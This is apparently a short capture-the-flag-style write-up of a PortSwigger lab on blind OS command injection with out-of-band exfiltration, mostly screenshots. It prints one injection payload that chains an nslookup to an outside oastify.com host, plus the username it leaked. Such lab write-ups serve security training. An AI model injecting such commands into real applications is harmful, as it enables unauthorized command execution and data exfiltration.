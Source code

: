 ## Lab Description: Blind OS command injection with out-of-band data exfiltration

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/bd586d5e-7180-44ee-a974-73f40922d12c)


## Solution:   

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/71c2ea04-abe7-4c76-8496-d72e44a290dd)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f866eff2-de9a-4631-b199-31a7bdf198d6)

`& nslookup 8clb6zquify37iobtzx522hmndt5hw5l.oastify.com #`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5fb56abc-49c9-4fc1-baea-ee8b344ca879)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a2c49c03-71d8-4ed6-8544-545cae72b599)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b90fda15-2ad1-4417-9855-4b8eccc9b4fb)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2660bbde-47c5-4c2e-b859-c48a26eea2a6)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a52955f0-3acb-4a16-b31f-b8e94655442f)

`peter-UB9jSi`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/bc28b9c1-9fb4-4540-8358-a76ec3a169ce)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/00bd3267-bff3-4ad1-af78-0b3c1d260744)

